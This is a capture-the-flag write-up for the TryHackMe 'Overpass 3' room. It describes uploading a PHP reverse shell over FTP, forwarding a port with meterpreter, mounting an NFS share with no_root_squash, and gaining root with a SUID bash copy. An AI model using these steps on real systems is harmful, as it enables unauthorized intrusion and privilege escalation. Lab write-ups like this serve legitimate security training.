 # Overpass 3

[TryHackMe room link](https://tryhackme.com/room/overpass3hosting)

# Informations about the room

> You know them, you love them, your favourite group of broke computer science students have another business venture! Show them that they probably should hire someone for security...

# Open ports

21 vsftpd 3.0.3

22 OpenSSH 8.0

80 Apache httpd 2.4.37

# Enumeration 

With directory bruteforcing we find a `backups` directory

It cointains a PGP key and a encrypted xlsx file

```console
 gpg --import priv.key 
 gpg --decrypt CustomerDetails.xlsx.gpg                                                                                                                                   
```

The excel sheet contains Usernames and passwords for potential users:
```
Customer Name	Username	Password	Credit card number	CVC	
Par. A. Doxx	paradox	REDACTED	4111 1111 4555 1142	432	
0day Montgomery	0day	REDACTED	5555 3412 4444 1115	642	
Muir Land	muirlandoracle	REDACTED	5103 2219 1119 9245	737	
```

Bruteforcing ssh did not work but ftp worked with user paradox 

We now have access to the webroot, and write access too

We upload a php reverse shell 

# Privilege escalation

After logging in we can switch to the user paradox with the password found earlier

Linpeas finds a [weak NFS permission](https://juggernaut-sec.com/nfs-no_root_squash/)

`/home/james *(rw,fsid=0,sync,no_root_squash,insecure)`

By enumerating the NFS we can see that is listening on port 2049 but we cannot see it from the attacking system

I uploaded a meterpreter shell and i forwarded the port to my system

`meterpreter > portfwd add -l 9999 -p 2049 -r 10.10.44.161`                                                                                                              

I mounted it:

`sudo mount -v -t nfs localhost:/ test`

And found the user flag

We also find james's private ssh key that we can use to log in his account

Linpeas finds a potential [privesc vector](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses) in the PATH:

```console
PATH
/home/james/.local/bin:/home/james/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin
New path exported: /home/james/.local/bin:/home/james/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/sbin:/bin
```

From the attacking machine we copy `/bin/bash` we set the SUID bit `chmod +s bash` and we start it from the `james` user with `./bash -p`
